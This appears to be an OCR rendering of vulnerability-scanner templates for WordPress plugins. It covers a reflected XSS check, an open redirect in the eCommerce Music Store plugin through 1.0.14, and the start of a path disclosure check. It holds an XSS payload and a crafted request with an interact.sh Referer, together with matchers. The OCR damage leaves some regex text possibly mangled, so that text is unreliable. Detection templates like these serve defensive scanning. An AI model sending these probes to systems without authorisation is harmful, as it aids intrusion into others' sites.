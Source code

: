 - part - body
- words
  1. value="FB_appId">\<script>alert(document.domain)\</script>"

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---

# WordPress eCommerce Music Store \<=1.0.14 - Open Redirect

## Description

- WordPress eCommerce Music Store plugin through 1.0.14 contains an open redirect vulnerability via the referer header. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - medium
- tags - musicstore,wp,wpscan,seclists,wordpress,redirect,wp-plugin

## Requests

### Step - 1

```
GET /wp-content/plugins/music-store/ms-core/ms-submit.php HTTP/1.1
Host: {{Hostname}}
Referer: https://interact.sh

```

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$

---

# Wordpress - Path Disclosure

- severity - info
- tags - debug,wordpress,fpd
